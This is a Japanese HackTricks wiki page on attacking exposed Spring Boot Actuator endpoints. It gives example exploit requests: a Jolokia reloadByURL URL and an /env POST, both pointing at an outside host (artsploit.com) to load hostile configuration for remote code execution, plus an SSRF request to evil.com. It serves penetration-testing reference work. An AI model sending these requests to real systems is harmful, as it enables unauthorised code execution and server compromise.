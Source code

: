 # Spring Actuators

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**出典** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Spring Boot Actuatorsの悪用

**元の投稿を確認してください** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **重要なポイント:**

* Spring Boot Actuatorsは、`/health`、`/trace`、`/beans`、`/env`などのエンドポイントを登録します。バージョン1から1.4では、これらのエンドポイントは認証なしでアクセス可能です。バージョン1.5以降は、デフォルトで非機密なのは`/health`と`/info`のみですが、開発者はこのセキュリティを無効にすることがよくあります。
* 特定のActuatorエンドポイントは、機密データを露出させたり、有害なアクションを許可したりする可能性があります：
* `/dump`、`/trace`、`/logfile`、`/shutdown`、`/mappings`、`/env`、`/actuator/env`、`/restart`、および`/heapdump`。
* Spring Boot 1.xでは、アクチュエーターはルートURLの下に登録されますが、2.xでは`/actuator/`ベースパスの下にあります。

### **悪用技術:**

1. **'/jolokia'を介したリモートコード実行**:
* `/jolokia`アクチュエーターエンドポイントは、MBeansへのHTTPアクセスを可能にするJolokiaライブラリを公開します。
* `reloadByURL`アクションは、外部URLからログ設定を再読み込みするために悪用される可能性があり、盲目的なXXEや作成されたXML設定を介したリモートコード実行につながる可能性があります。
* 例の悪用URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`。
2. **'/env'を介した設定変更**:
* Spring Cloudライブラリが存在する場合、`/env`エンドポイントは環境プロパティの変更を許可します。
* プロパティは、Eureka serviceURLにおけるXStreamデシリアライズ脆弱性などの脆弱性を悪用するために操作できます。
* 例の悪用POSTリクエスト:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **その他の有用な設定**:
* `spring.datasource.tomcat.validationQuery`、`spring.datasource.tomcat.url`、および`spring.datasource.tomcat.max-active`のようなプロパティは、SQLインジェクションやデータベース接続文字列の変更など、さまざまな悪用のために操作できます。

### **追加情報:**

* デフォルトのアクチュエーターの包括的なリストは[こちら](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt)で見つけることができます。
* Spring Boot 2.xの`/env`エンドポイントは、プロパティ変更のためにJSON形式を使用しますが、一般的な概念は同じです。

### **関連トピック:**

1. **Env + H2 RCE**:
* `/env`エンドポイントとH2データベースの組み合わせを悪用する詳細は[こちら](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)で見つけることができます。
2. **不正なパス名解釈によるSpring Boot上のSSRF**:
* SpringフレームワークのHTTPパス名におけるマトリックスパラメータ（`;`）の処理は、サーバーサイドリクエストフォージェリ（SSRF）を悪用するために利用される可能性があります。
* 例の悪用リクエスト:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
</details>
{% endhint %}
